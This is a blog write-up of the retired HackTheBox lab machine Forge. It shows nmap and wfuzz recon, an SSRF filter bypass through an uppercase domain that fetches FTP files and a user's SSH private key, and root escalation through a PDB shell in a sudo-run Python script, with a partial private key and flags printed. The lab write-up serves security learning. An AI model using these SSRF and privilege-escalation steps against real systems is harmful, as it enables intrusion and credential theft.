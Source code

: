 Title:HTB: Forge
Date: 01-21-2022 17:25
category:security
tags:security, boot2root, HTB, SSRF, LFI
meta:security, boot2root, HTB, SSRF, LFI

<img class="align-left" src="/media/2022.01/forge_card.png" alt="Forge Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Forge](https://www.hackthebox.eu/home/machines/profile/376) publish on
September 11, 2021 by
[NoobHacker9999](https://www.hackthebox.eu/home/users/profile/393721).
This box is rated as a medium machine but could be qualified as an easy medium
:). It implies a SSRF and an LFI as well as some Python and a
[PDB](https://docs.python.org/3/library/pdb.html).

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Friday Sep 17 04:59:56 2021 as: nmap -sSV -p- -oN notes.md -A 10.129.220.75
    Nmap scan report for 10.129.220.75
    Host is up (0.013s latency).
    Not shown: 65532 closed ports
    PORT   STATE    SERVICE VERSION
    21/tcp filtered ftp
    22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))

## Website

The website is a gallery that allow to upload an image either from the
filesystem or from an URL.

We use [wfuzz](https://github.com/xmendez/wfuzz) in addition to the
[subdomain secList](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)
to discover that the domain admin.forge.htb exist.

    :::text
    └─$ wfuzz -c -w subdomains-top1million-5000.txt --sc 200 -H "HOST:FUZZ.forge.htb" http://forge.htb
    /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://forge.htb/
    Total requests: 4989

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================

    000000024:   200        1 L      4 W        27 Ch       "admin - admin"

We cannot access the admin interface as some IP filtering is in place.
We try to includ the page by uploading it as an image using the URL but it
failes with an error message: "URL contains a blacklisted address!"

We try the same inclusiion by using upper case on the "FORGE" domain and got the
page http://admin.FORGE.htb

    :::html
    <title>Admin Portal</title>
    </head>
    <body>
        <link rel="stylesheet" type="text/css" href="/static/css/main.css">
        <header>
                <nav>
                    <h1 class=""><a href="/">Portal home</a></h1>
                    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                    <h1 class="align-right"><a href="/upload">Upload image</a></h1>
                </nav>
        </header>
        <br><br><br><br>
        <br><br><br><br>
        <center><h1>Welcome Admins!</h1></center>
    </body>
    </html>

We look at the `announcements` page:

    :::html
    <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
    <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
    <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>


We try to load the FTP page using the disclosed credentials
`http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/`
We got two files `user.txt` and `snap`.

We take a look at the `.ssh/id_rsa` file (worst case scenario it does not
exist) using `http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/.ssh/id_rsa`
and got the RSA private key. We can now connect as `user` using SSH and grab the
user flag.

    :::text
    └─$ ssh user@forge.htb -i id_rsa
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
    user@forge:~$ cat user.txt
    4a8aed62cdd2fca87ce185b780ee3e89

# Root

We look at our privileges (`sudo -l`) and we see that we can run `/usr/bin/python3 /opt/remote-manage.py`
as `root` without password. Looking at the script it is a remote manager script
that will land us a [PDB](https://docs.python.org/3/library/pdb.html) if it got
a unrecognized input. So we launch the script, connect to it using another SSH
terminal and `nc`, then we just input a "q" that will not be recognize and get
a [PDB](https://docs.python.org/3/library/pdb.html) in our first shell allowing
us to load the `os` module and execute system commands as root using
`os.system([COMMAND])`.

    :::text
    user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
    Listening on localhost:59816
    invalid literal for int() with base 10: b'q'
    > /opt/remote-manage.py(27)<module>()
    -> option = int(clientsock.recv(1024).strip())
    (Pdb) --KeyboardInterrupt--
    (Pdb) import os
    (Pdb) os.system('id')
    uid=0(root) gid=0(root) groups=0(root)
    0

We just grab the root SSH private key and connect on the box as `root` allowing us
to get the flag.

    :::text
    (Pdb) os.system('ls /root/.ssh')
    authorized_keys  id_rsa  id_rsa.pub
    0
    (Pdb) os.system('cat /root/.ssh/id_rsa')
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAusTE7uvvBLrfqDLv6I/+Xc9W/RVGA4eFPOowUNkHDZ4MTUm4cK4/
    DdTvY7o7bvSinEX26rWdG4eVY3qnBGSACl3VIGX80NsWgyZwWQT20Vj0q8gf674RB4LfB6
    i6Awm8cbm3105HxfQnqr4qr2oJEpyDVaF29zpaS+6y0Ogq7HcRkSyQyErBnGmlOYBcBvvh
    <SNIP>
    -----END OPENSSH PRIVATE KEY-----

    └─$ ssh forge.htb -l root -i id_rsa_root
    root@forge:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@forge:~# cat root.txt
    5a7c66fcccbc8a380f220f349e6eea95

# Wrapping up

This box was really easy for a medium one. The root part really easy. I
triggered it by mistake as "q" for quit is an old habit. Once you get the
subdomain the user part just requires to follow the dots. A great medium box for
beginners.

